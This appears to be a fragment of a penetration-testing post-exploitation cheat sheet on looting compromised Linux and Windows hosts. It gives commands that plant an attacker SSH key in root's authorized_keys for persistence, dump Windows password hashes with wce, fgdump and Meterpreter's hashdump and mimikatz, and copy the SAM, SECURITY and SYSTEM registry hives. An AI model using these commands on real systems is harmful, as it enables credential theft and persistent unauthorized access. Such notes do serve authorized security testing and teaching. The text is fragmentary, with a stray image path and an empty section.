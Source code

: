 ```bash
.bash_history

```

### Databases
```
```

### SSH-Keys
```bash
mkdir /root/.ssh 2>/dev/null; echo '<your ssh-key>' >> /root/.ssh/authorized_keys

```

### Browser

### Mail
```bash
/var/mail
/var/spool/mail

```

### GUI
If there is a gui we want to check out the browser.
```bash
echo $DESKTOP_SESSION
echo $XDG_CURRENT_DESKTOP
echo $GDMSESSION

```
## Windows

### Passwords and hashes
```bash
wce32.exe -w
wce64.exe -w
fgdump.exe

# Loot passwords without tools
reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system

# Meterpreter
hashdump
load mimikatz
msv

```
